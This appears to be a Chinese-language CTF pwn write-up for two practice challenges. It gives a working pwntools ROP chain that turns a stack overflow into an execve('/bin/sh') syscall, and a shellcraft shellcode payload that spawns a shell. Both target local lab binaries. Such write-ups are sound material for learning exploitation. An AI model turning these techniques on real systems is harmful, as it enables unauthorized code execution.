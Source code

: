 main函数中直白的一个栈溢出。使用ROPgadget找到所需的gadget地址

```python
pop_rax_ret_addr = 0x40117E
pop_rdi_ret_addr = 0x401180
pop_rsi_rdx_ret_addr = 0x401182
syscall_addr = 0x401185
binsh_addr = 0x404040
```

发现提供的gadget足以完成一次syscall，由此开始布栈

分别设置rax为59，rdi为/bin/sh的地址，rsi、rdx为0，之后返回到syscall语句

引发execve系统调用，拿下shell

```python
from pwn import *

p = process("./ret2syscall")

pop_rax_ret_addr = 0x40117E
pop_rdi_ret_addr = 0x401180
pop_rsi_rdx_ret_addr = 0x401182
syscall_addr = 0x401185
binsh_addr = 0x404040

payload = b"a" * 64 + b"b" * 8
payload += p64(pop_rax_ret_addr) + p64(59) 
payload += p64(pop_rdi_ret_addr) + p64(binsh_addr) 
payload += p64(pop_rsi_rdx_ret_addr) + p64(0) + p64(0) + p64(syscall_addr)
p.send(payload)

p.interactive()
```



## shellcode_level0

进入ida发现按f5报错。稍微读一下汇编代码，发现

```assembly
.text:000000000000122D                 call    rdx
```

正是这一语句导致了反汇编出错。使用ida的patch功能把call rdx改为nop即可反汇编

程序逻辑非常简明，读取一段内容，并且从内容开始处执行

考点是pwntools的shellcraft工具的使用，一把梭

```python
from pwn import *

context(os="linux",arch="amd64")

io = process("./shellcode_level0")

payload = asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```
